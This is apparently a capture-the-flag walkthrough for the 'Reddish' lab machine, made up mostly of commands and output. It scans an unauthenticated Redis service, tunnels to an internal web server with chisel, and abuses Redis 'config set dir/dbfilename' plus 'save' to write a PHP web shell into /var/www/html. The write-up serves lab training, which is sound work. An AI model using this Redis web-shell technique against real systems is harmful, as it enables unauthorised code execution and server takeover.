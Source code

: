 	nmap -sT -sC -sV -p 6379 localhost

```
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
```

Search for "redis remote command execution". [^4]

	nc localhost 6379

```
echo "Hey no AUTH required!"
$21
Hey no AUTH required!
```

Let's try this on the web server:

Reset chisel client:

	./chisel client --fingerprint bLI2u0S1mmRNO1SPvqR8H1lxfmz9JAXp+f6ZApPLdK8= 10.10.16.12:8000 R:127.0.0.1:8001:172.19.0.3:80
	firefox http://localhost:8001/8924d0549008565c554f8128cd11fda4/ajax.php?test=echo

```
ERR wrong number of arguments for 'echo' command
```

	localhost:8001/8924d0549008565c554f8128cd11fda4/ajax.php?test=help echo

```
ERR unknown command 'help'
```

	http://localhost:8001/8924d0549008565c554f8128cd11fda4/ajax.php?test=echo%20%22Hey%20no%20AUTH%20required%22

```
Hey no AUTH required
```

It looks like ajax.php is a direct connection to reddish itself and no auth is required. Let's do the commands we know:

	nc localhost 6379
		flushall
		set PleaseSubscribe "<? system($_REQUEST['ippsec']); ?>"
		config set dbfilename ippsec.php
		config set dir /var/www/html
		save	// we've written a configuration file called ippsec.php to /var/www/html
	
	localhost:8001/ippsec.php

```
REDIS0008� redis-ver4.0.9� redis-bits�@�ctime�K��a�used-mem�(��aof-preamble���pwn%  
**Warning**: system(): Cannot execute a blank command in **/var/www/html/ippsec.php** on line **2**  
��I?�?��
```


[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html